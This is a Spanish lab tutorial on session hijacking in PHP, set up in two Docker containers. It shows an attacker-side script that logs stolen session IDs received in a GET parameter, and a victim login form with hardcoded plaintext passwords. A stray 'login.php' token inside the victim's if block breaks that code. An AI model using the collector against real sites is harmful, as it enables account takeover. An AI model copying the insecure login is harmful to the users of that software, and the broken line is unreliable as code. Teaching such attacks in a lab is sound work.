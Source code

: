 ## Autenticación con sesiones

La sesión de usuario es un componente fundamental en cualquier aplicación web, ya que permite identificar a un usuario entre diversas solicitudes y ofrecer una interacción personal con la aplicación. El mecanismo que controla las sesiones es un objetivo de ataque importante. Para establecer una sesión, el servidor crea un *session ID* único, que se envía al navegador y se guarda en una cookie, permitiendo al servidor asociar la interacción con un usuario concreto. El atacante lo que va a buscar es apoderarse de ese identificador para hacerse pasar por un usuario legítimo.

### Robo de sesión

Vamos a simular un secuestro de sesión. Para ello crea otra imagen docker como la que has creado antes, que se llame "atacante" y que escuche en el puerto 8081. Después crea el archivo `robo-de-sesion.php`:

```php
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'data/sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```

Ahora vuelve al docker anterior (victima) y crea el archivo `login.php` para crear un formulario de inicio de sesión en PHP, con el siguiente contenido:

```php
<?php
session_start();

//En una aplicación real, los usuarios estarían almaenados en la base de datos
$all_users = array ("mario" => "qwerty", "juan" => "123456");
$valid_users = array_keys($all_users);

$ya_registrado = $_SESSION['ya_registrado'] ?? false;


if ($_SERVER['REQUEST_METHOD'] == "POST" && !$ya_registrado){
	$usuario = $_POST['usuario'] ?? "";
	$password = $_POST['password'] ?? "";
    
	$ya_registrado = (in_array($usuario, $valid_users)) && ($password == $all_users[$usuario]);
	if ($ya_registrado){login.php
		$_SESSION['ya_registrado'] = true;
		$_SESSION['usuario'] = $usuario;
	}
}

if ($ya_registrado){
	// Si llega aqui es porque es un usuario válido.
	echo "<p>Welcome " . $_SESSION['usuario'] . "</p>";
	echo "<p>Congratulations, you are into the system.</p>";
}else{
?>
	
	<form action='login.php' method='post'>
		Usuario: <input type='text' name = "usuario" id="usuario" value=""><br>
		Contraseña: <input type='password' name = "password" id = "password" value=""><br>
		<input type='submit' value='Enviar'>
	</form>
<?php
}
```